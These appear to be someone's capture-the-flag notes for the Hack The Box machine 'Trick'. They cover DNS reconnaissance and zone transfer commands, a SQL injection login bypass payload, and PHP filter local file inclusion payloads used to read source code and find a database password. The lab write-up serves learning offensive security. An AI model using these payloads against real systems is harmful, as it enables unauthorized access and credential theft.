 #web #medium #sqlinjection #lfi #dns #smtp #privilegeescalation 


# Recon
`nmap -A -oA -T4 -n trick 10.10.11.166`

# DNS
DNS uses tcp for anything greater than 512 bytes
- DNSSEC
- IPv6
- DNS Zone Transfer

```
nslookup
server 10.10.11.166


dig @10.10.11.166 -x 10.10.11.166
dig @10.10.11.166 -x 10.10.11.166 +short
dig @10.10.11.166 axfr trick.htb


# bruteforce dns reverse lookup (be careful it is suspicious)
dnsrecon -r 10.10.11.0/24 -d '' -n 10.10.11.166
```


add in /etc/hosts
```
10.10.11.166  trick.htb preprod-payroll.trick.htb
```
Go to `preprod-payroll.trick.htb`

# Web
## SQL Injection
SQL inject login page
```
username: admin' or 1=1 -- b
password: anything
```
## Local File Inclusion
https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb

```
# get php code using php filter (choose one)
php://filter/convert.base64-encode/resource=deductions 
php://filter/php://convert.base64-encode/resource=deductions
php://filter/convert.base64-encode/resource=index
```
Note that the server appends `.php` extension. You can chain this to find other pages, including database password.
